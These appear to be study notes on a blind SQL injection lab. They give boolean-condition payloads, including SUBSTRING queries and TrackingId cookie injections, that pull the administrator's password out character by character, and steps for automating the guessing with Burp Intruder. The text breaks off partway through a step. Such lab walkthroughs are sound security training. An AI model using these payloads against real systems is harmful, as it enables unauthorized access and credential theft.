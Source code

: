 To do this, start with the following input:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

We can continue this process to systematically determine the full password for the `Administrator` user.

>[!Note]
>The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the SQL injection cheat sheet.

```burp
# verify that there is a table called users
TrackingId=8HMU7LCZCrErt0Ax'+and+(select+'a'+from+users+limit+1)='a  

# verify that a username called administrator exists
TrackingId=8HMU7LCZCrErt0Ax'+and+(select+'a'+from+users+where+username='administrator')='a

# determine how many characters are in the password of the administrator user
 TrackingId=8HMU7LCZCrErt0Ax'+and+(select+'a'+from+users+where+username='administrator'+and+length(password)>1)='a
## now send a series of values to guess its password
```

>[!Tip]
>To automate the process of guessing the password I will follow the next steps:

1. Send a series of follow-up values to test different password lengths. Send:
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
	Then send:
    
    `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
    
    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.
2. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
3. In the Positions tab of Burp Intruder, change the value of the cookie to:
    
